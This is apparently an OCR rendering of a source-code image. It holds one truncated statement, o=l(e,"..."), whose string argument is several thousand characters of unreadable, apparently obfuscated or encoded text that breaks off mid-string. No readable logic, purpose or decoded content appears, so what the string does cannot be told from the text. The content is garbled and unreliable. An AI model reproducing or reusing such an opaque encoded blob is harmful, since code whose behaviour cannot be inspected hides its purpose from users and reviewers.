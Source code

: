 o=l(e,"OFNbPy!EVBpCHRX9EFbPPX!VVyBHC!RmXpaPCXpCBN!XBPp#CpRPPFEEBEpXCBRyRR+yNHPCbPECBNpPyHEVVXpVHNNByEEBBVP!!REVBNpHYVP9!HEVBbCpCyXyF^FyFpPRE!ERBXP9!!VUBpCPHXXVNXyHbVyV!pVPBX-HbE!PEpEbpbHXRbVCpNCHR!9d&p!PpEBVEPBFp!H?RpbpV*VBp9HFEVByppHPRXPRy!ByCbBNEHB9pXHVXNPVVyBbpCRqHX2PFbPyPCENFHbEPX!VVN_pFCPEXHIXFXbVyNHKXCFVNXNEyF!BVXpFCpENVXpPCXRVPyEyp2pyyHERVXpVHNNH!NEFpbpBR0C9LEFyHVX!9pFPNXVCRFXV0yNN9RXEHCXVNPXC99REPFEbRs9F(NFHb!pPH99HFNIPbbPX!CVHbR3gRBEBNFCH9yRXPBNEbXyVENVHp!HeHpbbFeNHPNyHE!9E4CbFPb9pF!NHP!!nHV9yFCNRXy9HF!b5Pp!PEX^N9NHX9!?+FpbPBCRE9Ej9FCFNy9EVBNpEHGBRHp,9bFPN9FPCyEyH9!bRpPVB9RRp+C:HN!P*pEXb9RF!FyPFyB!9ERCVRjXF=-FbbBNV!bEVBNpRRqCR6pNPbHXE9XFVbNPH!!C(F09PR_XH;NFHb!ByRV9B-CCCRNXH&!N+bpyPCFHVpPHPR!9}%pEPpRHCRC#7G9N9PV9!NPNVPNyHCV9FsRN9Py!pVFpFCPHPHXM!u9b!yy!HEEpNp9RNXFFFCPRVX!IaFpE!CRRpX!/FNVFbyBE>VRppVy!9V!pMCpRPXXPVVREHyVE!VppPCXFXyE!9VXpFHHE!BNpVHNRH!RVNVCCP!FHCRy9NH!Ppb!Rp!RPpVBEHB!C FXPH!EVCyNCNH9XH99RPPyPBEybHp!HNRB9VwbFCP!yF!pPcCFCRXN9/HNiBPyy9EVEEpbCCBNXNRBHNXC9PJXNVVPHyXP9PHpF!Pb!XECB9CpHFXHCPR!*R4C9XFBbwPp!PHbjCNNH9X!uUFpbPPXPV9FRHCVREXpZPFXBXHPRC9b9NmFF!9kFhNNbHy!CB9VFEbNbB!W!9VCPbBbNpCNVVRF!pbVH9NHyNyXEVBNr!o9PXyXEBp!VpHEXP9EN!bbybE_Fpb9PH!!Va9B-BbyyXPy!NpHCXpRXH:!F9bEX9VRX-EyBPbVNH!P9CRBCVbPPN9XCXBENX!yHbRp9PrXNVPNyHCFR0pHHXRX9VFNENCVHFXE9BDFbHyC!VECbNP9!PEXBV4!bFyXEPVBbEPCVBCybHy9NpppPbN/bRyN!HV!9bNXPRyp!RNybHy!EgVppPCXFXbN<RNEPN!!EPVXpVFBbRy9VPE2CbR.CC9pFybNPP9RHCHCyB!N9bPpEW7BX!AFFVbNPHpHXHFbC!RyXVDNFHBBC9RV9N<bFCP!XXFFN/bpyPHNXRFpblNR!N!CBPpXCRR!V9RNPbRHBPpHNEFbBCEBB>ppHPRX9VBNEbV!!NVbBPpXHVPy!CVVB9C9RVXEM!FEHX9^Q?FpbPpNHR9pFJ9VPyyXEVVRp!yP!RV!p.CpNH9#FPNNbHy!C!9!FRRXFpyCEpVp!xVNHpCEppHRRH9!F>EHCbH4XPrFNPFVP9!9VNBNPpEEEHB!CIFpPB!yEBpP!HH99P99NNPFiV!!VCy!HgR!XyFEFRPPX9w!NtbpyP!XVVXF9HRBb!P9B9EXNFVP!BXyHNXp9PJXNVVPCRRB9CFFb!PR!RVGBuVBH9X!;bN)9CXy9HF!bhPp!PEXBVCNHXX9*aFpbPpFHC9PeFFCbXbFEBVEbpyV!HV!pJrpby!s!RBAC?yBEKVppPCXRV9NyB!!PN!PEPVXpVF!PF!XVP!RCbHpXEcPR9HVXV9pFPNXVCRPXF9pFBbXybEFFpb!PH!!V;X(NbbHyH?PNbb!y8!pRETEFpbXyyEPVEbRFC99NBXF9REbCqPBNEFGy!HpNCy4b!B!bbF^bEPNyHE!RRFbbNPEFVyyByCpRBBpRHM9NCPR!9FVbPPp!PEXXHFEPPyp}NNFbPPX!VRNlVFEPBP9E!BFbpy9!HV!p%9HPRNVNVENpFCpXN9BFHbVYXNy+9E9!HFPEbBp9pVNFC9B!FyRypbXPNHpBr,yXbEVN9PXXVE!nH!!X9HRXP9XFVbNPH!!C!RpCPBpXB1NFHb!V9!pVPBXCBRNXHf!bNy!yP!XVVCCCHR!9KFHNEbXyVENCVp!HjRpFpF8NVPNyHEHBapCHP}N9VF!HbP!!6EpBppXHBXN9HREbIPp!PE9BVCNHH9VyPFpbPPXBFVNBHC!90VX/PFXbVyN!HBFpLHHRpXX&BNNVby!EiVppPRyRV9NTHNVP(yHEPpKCVHNRR9!bBNpPPyXBVBXpHHEXm9CFPbBPVEPVRB!CNHpXH9XFVbNPHVDV2BCCPR?XVnPFHPVpP!pV!BXXFRNXH0!PqRXyPEkVVpPCHXF98FHPFbXyCENHpp!HnRp9PFPNVPPyHEVBGpHHP9SMHFNN9P!VBEpBPpXXVXR9HFBb}PR!PVBBVHPHRX!0PFpENPX!VVNBHHXRcXRtPNMbVyP!HBV9PCpRVXXbFNNbHy!BoNXpPHNRV9!*HbFP^!HVXVXpRHNFp9!FZNpPPEFEVB!pHHVXd9HFPPkPH!NVFB!RBHpXP9XbVbVPH!CVxB9CPRBXVFPbNb!y!!pByBXCVRNXHNbNDb9yPEGVVpPCHXVPPgpNpbXVFENVHp!XeEX9PFPNVPVyHVFB>CHRHRX99FNbRP!!ZEpBPH!HVXV9HFVb/PH!PB:pCCNRbX!NBFpbPPXVVVHBHCRR,9FkPNBbV!PVPV!pVCpFNXXKVNNbH!XE<BFpPH&RV9PJHbVBPypEHVXRFHNRH9!bfXHPP!!EVBppHRFXv0HNENXyF!NCpB!C HpXPFbFVbpPH!VV.BHCP9XXpjNFHb!!y!pVEBXHpX!XHW9N}PXyP!XVVHNHFR!9BqpNRbXppENpHpHH/Xb9PFENVPHyHB!FbppHRRXwFFN!NP!EN9HBPCBHV9L9HF!bLPpENEXpFCNREX!lNFpPPyE!VVNBH9XR<9b}Pb)bpyNEyV!CCCpRPXXNVb!bHy9EjBbpPXBRVFNF/N!PBypERVX9yHNXHhVF_NpPPVBEVBCpH9!EH9pFyNXyR!NE9B!HvBbXP99FVEpPH!!V-pHRFHX9F7NNCb!yu!ppPB9CVRCXH(9N_!NyPVMVppNH!R!NP+pNPbX!pEPVHCFHGnX9PTXNVyP!CE!BHpp9VRX9VFNNHyP!mVbBPCpHVXP9HN!9BPp!yEXRRCNRyX!FNNpbPyE!VBFBHC!R5<pvXFXPFyNEyV!HVCpX!?yMVNHbHBHExVppPR;Xb9NFEN!V!ypEPVXCpHyRH<NF%EmPPyXEVBNCyH!XB9pNINXPp!NVH0XCaHCXPFRFVbCPHEVRPBpCRHX9F7NFHb!EYF!VPpECVRCXHFFN2PHE5!XBNpNRPR!9Whpb!yVyVERVHXHHwRp9PNmNCPN!VE!X!ppHPRX/pNBNHyb!>HGBPpXHVXN99F!bBPpEFEXBpCNRHXE#(FCbP!C!VVCBHHVNPXpwRFXPFyN!HV!Hm!!RP9E=VNCbH!FEwBHCbCXXN9NyNN!PIypV!pFpVHRRH9EFdNpPPEZVHBNCVH!N!9pFPNXypEHEHpbC7XPXP9XFVbNy9!!VBBpHFHXXpQNNHydyY!CVPpCCVRCXHFVEPbpyR!XpbpNCHR!FeVqNPPEyVECVHR!H{9p99(XbFPN!yE!RFppRPXF9VFbNHEB!aVbBPRXRVXN9XF!PyPpVyEXpVHPHHXV6:!NbPP9!VBPpEC!RBXpFbFXbVyNVHVVphHbRP9E6VPpbH!VE!VppXCX999N*HN!yN9CEPBBpVXBRH9!F_bHyHyXVPBNRbH!Xf9pFPPSPV!CEHpNCAHHXP8XNqbNPX!!HyBpCRHXFVdCFHbVy VVVPCFCVXP9!f!NBbp!b!XVVpNRHXC91FbNPPEyVBpVHCVH!Rp9X_X!XPNyHE!pNPCHPXB9VyVNHP!!)VHB9pXRPXNPNF!b{Pp!PVEBVCCHH9NoIFHbPyXENVNBXC!X9Xp7RFX!VyP!HVVpGCXRPbP>VbPyEy!EBVppRCXRV9NNHbVPu!bEPBEpVHRRHaVF!NpPXyXp!BNpHH!9NByFPbBPVpVEHB!ClRH9A9XNPbNyH!!VrBpH!XpXVI9FHEHy<!pVPBXRNRN9ys!NRbpy!!XBVpPCHRV9vNENPPEyVVPBXp!HBRp9RaXNVPNEHBbB6CbHPXE9VFRNHyV!!EpBXpX_XXN9HF!PNXy!PVBBV9CHHX!.hNHP=PXEPVNXNC!R.XpF!NpbVy9!HpNpQCpRPXXqXNNPyy!ERVpp!CXXVrHUHNVPv!EEPBEpVRPXR9!FBNpy9yXEVBNHHXNXtgbFPbEPVpXEHC!NBHpXR9XNFbNPX!!B7XBCPRqXVPXFHb9yfBpVHBXCpRNbR_!y9bp!!E!VVpCCHXy9zkpNPyX!XENByp!HBRpFHAXbpyEyHVlBlRFHPRX9VNPbbP!!CEpRppXHVXNTXN!b3y!!PHPBVCNHHX!N!FpbRPXEPVNBXC!X6EB%PNDbVBH!HV9p3XpRRXXwpNNPVy!pyVpRPR!RV9P6HNHP^y9EPCXC!HNRX9!PpNpEByXpVpVpHHBX(+9FP!!PVENVyB!CbHpNH9XFBbNyX!XV;pbCPRRXV>NFHy!HP!pVRBXHFRNFPZ!bNPPyPEVVVXyCHR!95FHN9bX!bENH9p!HIRp